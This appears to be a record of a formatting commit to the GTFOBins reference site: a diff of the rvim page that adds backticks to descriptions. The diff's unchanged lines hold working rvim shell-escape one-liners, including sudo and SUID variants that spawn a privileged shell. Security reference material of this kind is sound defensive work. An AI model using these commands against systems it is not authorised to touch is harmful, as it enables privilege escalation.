

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/rvim.md, in a window 1280 px wide. Shown: the whole page at 83% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Fix YAML format in vi

```diff
--- a/_gtfobins/rvim.md
+++ b/_gtfobins/rvim.md
@@ -1,7 +1,7 @@
 ---
 functions:
   shell:
-    - description: This requires that rvim is compiled with Python support.
+    - description: This requires that `rvim` is compiled with Python support.
       code: rvim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
   file-write:
     - description: This requires that rvim is compiled with Python support.
@@ -13,9 +13,9 @@ functions:
   file-read:
     - code: rvim file_to_read
   suid:
-    - description: This requires that rvim is compiled with Python support.
+    - description: This requires that `rvim` is compiled with Python support.
       code: ./rvim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
   sudo:
-    - description: This requires that rvim is compiled with Python support.
+    - description: This requires that `rvim` is compiled with Python support.
       code: sudo rvim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
 ---
```
Also changed, not shown: _gtfobins/vi.md (+2 -2 lines), _gtfobins/vim.md (+3 -3 lines).
